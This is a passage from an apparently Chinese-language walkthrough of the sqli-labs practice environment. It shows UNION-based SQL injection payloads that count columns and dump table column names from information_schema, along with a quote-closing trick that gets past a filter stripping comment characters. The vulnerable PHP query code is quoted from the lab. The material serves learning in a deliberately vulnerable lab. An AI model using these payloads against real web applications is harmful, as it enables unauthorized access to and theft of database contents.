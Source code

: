 ```mysql
" order by 3 #
判断列数为3列
```

直接爆

```mysql
" union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users' #
...
```

------

## less-23

```mysql
http://localhost/sqli-labs-master/less-23/?id=1' -- -
```

**回显:**

```text
**Warning**:  mysql_fetch_array() expects parameter 1 to be resource, boolean given in **K:\PHPSTUDY\phpstudy_pro\WWW\sqli-labs-master\Less-23\index.php** on line **38**
 You have an error in your SQL syntax; check the  manual that corresponds to your MySQL server version for the right  syntax to use near '' LIMIT 0,1' at line 1 
```

**代码审计:**

```php
$reg = "/#/";                          
$reg1 = "/--/";
$replace = "";
$id = preg_replace($reg, $replace, $id);
$id = preg_replace($reg1, $replace, $id);
//下面两个函数的意义是 检测是否有 # -- 这两个字符 如果有 则replace成空 给变量id 
//所以可以审到是对我们的闭合做了一些手段阻拦了 这个类型我们称为WAF (web端防火墙)
```

```php
//sql执行语句
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
```

尝试闭合id='$id':

```mysql
?id=-1' union select 1,2,3 or '1'='1
解析(从左往右): -1拿到回显位置 '闭合前面第一个引号 or前面写语句 '1'单独作为一个数和后面的1作比较返回为真 因为是or所以这个语句永远为真 '和后面的引号闭合 使得'1 变成了'1' 和前面的'1'对比 所以构造后完整的语句为
$sql="SELECT * FROM users WHERE id='-1' union select 1,2,3 or '1'='1 ' LIMIT 0,1";

闭合方式' " ') ")都可以用这种方法来进行闭合绕过WAF
```
